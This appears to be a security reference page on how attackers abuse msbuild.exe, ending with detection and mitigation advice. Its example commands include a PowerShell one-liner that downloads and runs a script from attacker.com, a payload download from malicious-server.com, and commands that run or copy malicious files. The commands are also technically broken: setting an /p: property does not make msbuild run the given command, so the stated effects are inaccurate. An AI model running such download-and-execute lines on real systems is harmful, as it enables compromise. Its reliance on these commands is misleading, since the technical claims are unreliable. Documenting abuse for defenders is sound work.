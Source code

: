 # msbuild.exe
## What is it?
*```msbuild.exe``` is a command-line tool used to build .NET applications, specifically by compiling and linking source code files, such as C# or Visual Basic, into executable programs or libraries.*

*It is a legitimate Windows utility and is part of the Microsoft Visual Studio suite. While typically used by developers, it can also be abused by attackers to execute malicious code, as it has the ability to run arbitrary scripts during the build process.*

## Legitimate Usage
- **Building .NET Applications** → Used by developers to compile, build, and package .NET applications from source code.
- **Automating Build Processes** → Helps automate the process of compiling and building large .NET projects, often as part of continuous integration (CI) pipelines.
- **Creating and Deploying Libraries** → Used to compile and package assemblies, libraries, and executables for distribution or deployment.

## How to abuse it
- **Running Malicious Code via Build Scripts** → Attackers can craft build scripts that include malicious code or download payloads during the build process, leveraging ```msbuild.exe``` to execute them.
- **Bypassing Security Controls** → Since ```msbuild.exe``` is a trusted binary, security software may overlook the malicious activities executed through it, such as running PowerShell scripts, downloading payloads, or creating malicious processes.
- **Persistence via Compiled Malware** → Attackers can use ```msbuild.exe``` to compile and execute payloads, gaining persistence on a victim's machine.
- **Exfiltration of Data** → Malicious build scripts can be used to extract sensitive data from a system or network by automating file transfers or executing exfiltration commands during the build process.

## Example attacks
### 1. Running Malicious PowerShell via Build Script
*Attackers can inject malicious PowerShell scripts into build files that get executed when ```msbuild.exe``` runs.*

**Run Malicious PowerShell Script via Build**

```
msbuild.exe /t:build /p:CustomAction="powershell.exe -ExecutionPolicy Bypass -NoProfile -Command IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/payload.ps1')"
```

**Effect:**
- Executes a PowerShell script downloaded from an external server, potentially leading to malware installation or data exfiltration.

### 2. Downloading Malware via Build Script
*Attackers can use ```msbuild.exe``` to download and execute malware during the build process by calling external servers in the build scripts.*

**Download Malware During Build**

```
msbuild.exe /t:build /p:DownloadPayload="Invoke-WebRequest -Uri 'http://malicious-server.com/payload.exe' -OutFile 'C:\Temp\payload.exe'"
```

**Effect:**
- Downloads and executes malware during the build process, allowing attackers to compromise the machine.

### 3. Bypassing Antivirus via Legitimate Tools
*Since ```msbuild.exe``` is a trusted executable, security software might not flag or block malicious activities performed through it.*

**Run Malware Using ```msbuild.exe```**

```
msbuild.exe /t:build /p:RunMaliciousCode="cmd.exe /c C:\malicious\payload.bat"
```

**Effect:**
- Executes a malicious batch script on the system, potentially installing a backdoor or exfiltrating data.

### 4. Compiling Malicious Code
*Attackers can use ```msbuild.exe``` to compile malicious code, such as custom payloads or malicious DLLs, to be executed on the victim's system.*

**Compile and Execute Malicious DLL**

```
msbuild.exe /t:build /p:BuildMaliciousDLL="C:\malicious\payload.cs"
```

**Effect:**
- Compiles a malicious C# source code file and executes it, infecting the system with malware.

### 5. Lateral Movement and Persistence
*Attackers can leverage ```msbuild.exe``` to execute scripts or payloads that allow them to move laterally across the network or maintain persistence on the compromised system.*

**Use Build Script to Deploy Malware on Other Systems**

```
msbuild.exe /t:build /p:DeployMalware="Copy-Item '\attacker\payload.exe' -Destination 'C:\Windows\Temp\payload.exe'"
```

**Effect:**
- Copies a malware payload to a target machine and executes it, achieving persistence and potentially lateral movement.

# Detection & Mitigation
## Detection Methods
**Monitor ```msbuild.exe``` Activity**
- **Event ID 4688 (Process Creation)** → Detect the execution of ```msbuild.exe``` with suspicious arguments, such as those that download files or execute external scripts.
- **Monitor Build Scripts** → Analyze the contents of build scripts for suspicious commands or references to external URLs, PowerShell commands, or executable files.
  
**Detect Suspicious Network Activity**
- **Network Traffic Analysis** → Monitor network traffic for downloads of malicious payloads during the build process, such as from external servers or IPs.

**File Integrity Monitoring**
- **Detect New Executables** → Monitor for new executable files or scripts that are created during a build process, especially in temporary directories like ```C:\Temp```.

## Mitigation Strategies
- **Restrict Access to ```msbuild.exe```** → Limit the execution of ```msbuild.exe``` to trusted users and environments, particularly in production environments.
- **Use Application Whitelisting (AppLocker, WDAC)** → Prevent the execution of unauthorized ```msbuild.exe``` processes or scripts that contain malicious commands.
- **Monitor Build Environments** → Audit build environments regularly for unauthorized changes or additions to build scripts that could be used for malicious purposes.
- **Scan Build Outputs for Malware** → Use antivirus or endpoint protection solutions to scan output files created by ```msbuild.exe``` for signs of malware or suspicious behavior.
- **Disable Internet Access for Build Systems** → Restrict internet access to build systems to prevent them from downloading malicious files during the build process.
